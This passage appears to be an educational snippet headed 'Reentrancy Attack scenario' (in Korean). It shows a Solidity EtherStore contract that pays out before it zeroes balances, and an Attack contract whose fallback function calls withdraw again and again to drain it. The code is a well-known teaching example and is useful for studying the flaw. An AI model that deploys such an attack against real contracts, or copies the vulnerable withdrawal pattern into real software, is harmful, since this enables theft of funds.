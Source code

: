 ## Reentrancy Attack 시나리오

```
contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
